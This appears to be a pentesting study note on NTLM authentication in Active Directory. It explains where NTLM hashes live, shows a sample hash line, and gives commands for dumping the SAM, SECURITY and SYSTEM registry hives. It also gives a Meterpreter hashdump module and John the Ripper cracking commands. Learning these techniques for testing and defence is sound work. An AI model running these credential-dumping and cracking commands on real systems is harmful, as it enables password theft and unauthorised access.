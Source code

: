 # New Technology LAN Manager (NTLM)
The suite of security protocols used to authenticae user identities in Active Directory. Authentication is provided by a NetNTLM. 

## NetNTLM can be found in:
- Internally-hosted Exchange servers that expose an Outlook Web App (OWA) login portal.
- RDP service of a server.
- VPN endpoints integrated with AD
- Internet facing web applications 

## How does it work?
- In between client and Active Directory
- All authentication material is forwarded to a domain controller
- Challenge goes to domain controller and if successful authenticates the user
- Application authenticates on behalf of user preventing it from storing credentials

Allows the application to act as a middle-man between client and AD.  All authentication material is forwarded to a Domain controller in the form of a challenge. 

##  NTLM Hashes

### NTLM hash location
In the `SAM Database` stored on the machine or in the domain controller NTDS database.

### NTLM hash structure?
The hash will look something similar to:
```sh
guest:501:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
```
The first 2 sections are related to the user, the last 2 are the `LM` and `NT` hashes.

| LM | NT |
| -- | -- |
| aad3b435b51404eeaad3b435b51404ee | 3e24dcead23468ce597d6883c576f657 |

### Dumping NTLM hash

Manually:
```sh
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```
Meterpreter:
```sh
meterpreter > run post/windows/gather/smart_hashdump
```

### NTLM Cracking
You can crack NTLM hashes by gaining access to a privileged user accountand dumping the SAM database.

```sh
john --format=NT --wordlist=rockyou.txt crack.txt
```

Meterpreter:
```sh
use auxiliary/analyze/jtr_crack_fast
```
